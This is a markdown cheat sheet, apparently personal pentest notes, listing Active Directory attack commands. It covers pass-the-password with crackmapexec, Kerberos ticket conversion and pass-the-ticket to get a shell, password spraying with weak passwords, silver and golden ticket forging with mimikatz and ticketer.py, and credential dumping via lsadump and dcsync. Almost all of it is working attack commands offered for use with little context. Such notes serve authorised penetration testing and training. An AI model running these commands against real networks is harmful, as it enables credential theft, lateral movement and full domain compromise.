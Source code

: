 ## Pass the Password
```
crackmapexec smb <ip/range> -u <user> -d <domain> -p <password>
crackmapexec smb <ip/range> -u <user> -p <password> --local-auth
crackmapexec smb <ip/range> -u <user> -d <domain> -p <password> --sam
```

## Converting kirbi tickets to ccache and getting a shell 
```
impacket-ticketConverter ticket.kirbi ticket.ccache
export KRB5CCNAME=/home/kali/ticket.ccache
impacket-psexec domain/user@IP or hostname -k -no-pass

mimikatz.exe "kerberos::ptt ticket.kirbi" or
.\Rubeus.exe ptt /ticket:ticket.kirbi
klist
.\PsExec.exe -accepteula \\hostname cmd
```

## Password Spray (use continue-on-success with CME)
- Weak Passwords (password, password1, Password1 passw0rd, etc)
- Cracked passwords
- Username as passwords
- Use Hydra and CME 

## Pass the Ticket (Silver Ticket)
```
kerberos::golden /user:<current user> /domain:<domain> /sid:<domain sid> /rc4:<rc4 hash of service account> /target:<target FQDN> /service:<service> /ptt

or

python3 ticketer.py -nthash b18b4b218eccad1c223306ea1916885f -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain test.local -dc-ip 10.10.10.1 -spn cifs/test.local john
```
- Impacket gives TGS for SMB which can be used to gain shell using crackmapexec -X
- [Silver Ticket to RCE](https://www.exploit-db.com/docs/48455)
- sqlcmd to access the SQL server

## Pass the Ticket (Golden Ticket)
```
lsadump::lsa /patch
kerberos::golden /user:Administrator /domain:<domain> /sid:<domain sid> /krbtgt:<ntlm hash> /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt
lsadump::dcsync /user:<domain>\<user>
```

## GroupManagedServiceAccount Password
- [Attack](https://adsecurity.org/?p=4367)
